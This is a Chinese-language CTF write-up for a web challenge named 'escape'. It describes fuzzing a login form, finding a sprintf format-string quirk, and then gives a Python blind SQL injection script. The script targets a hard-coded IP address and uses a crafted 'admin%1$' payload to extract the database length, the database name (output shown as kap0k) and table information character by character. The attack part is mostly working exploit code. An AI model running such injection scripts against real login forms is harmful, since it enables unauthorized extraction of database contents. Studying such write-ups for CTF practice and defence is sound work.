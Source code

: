 ![1568346516424.png](https://i.loli.net/2019/09/15/BGqWI5xE2mkeonK.png)

## Web - escape

这是一道原题，之前做得很崩溃，所以拿来这里也顺便 e‘xin 一下大家，嘿嘿嘿 ：>

看似是个登陆框，但是你会发现你 fuzz 了半小时的关键词和各种常用符号返回都只是`noooooooo!`，然后~~关闭网页看下一题~~我们可以换一个思路，把全部可见字符都 fuzz 一遍，看看有什么东西被过滤了（不要问我为什么这样想，这都是经验）。

![1568559201452.png](https://i.loli.net/2019/09/15/Y5wcizMUnqKkSu4.png)

然后你就会发现 % 会返回一句 sprintf(): Too few arguments，百度一下是 printf 的格式化字符串漏洞：

https://blog.csdn.net/weixin_41185953/article/details/80485075

直接贴 payload

```python
import requests
import string

url = 'http://111.231.101.223:10004/index.php'
basehtml = 'you get it!'

def database_len():
    for i in range(15):
        payload = {"username":"admin%1$' and length(database())={}#".format(i), "password":"123"}
        r = requests.post(url, payload)
        if basehtml in r.text:
            print '[+] get database_len: %s'%(str(i))
            break
        else:
            print '[*] present database_len: %s'%(str(i))
#database_len()

'''
[+] get database_len: 5
'''


def database_name():
    name = ''
    for i in range(1,6):
        for ch in string.printable:
            payload = {"username":"admin%1$' and ascii(substr(database(),{},1))={}#".format(i,ord(ch)), "password":"123"}
            r = requests.post(url, payload)
            if basehtml in r.text:
                name += ch
                print '[+] present database_name: %s'%(name)
                break
#database_name()
'''
[+] present database_name: kap0k
'''

def table_len():
    i = 1
    while True:
        payload = {"username":"admin%1$' and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))={}#".format(i), "password":"123"}
        r = requests.post(url, payload)
        if basehtml in r.text:
            print '[+] get tables_len: %s'%(str(i))
            break
```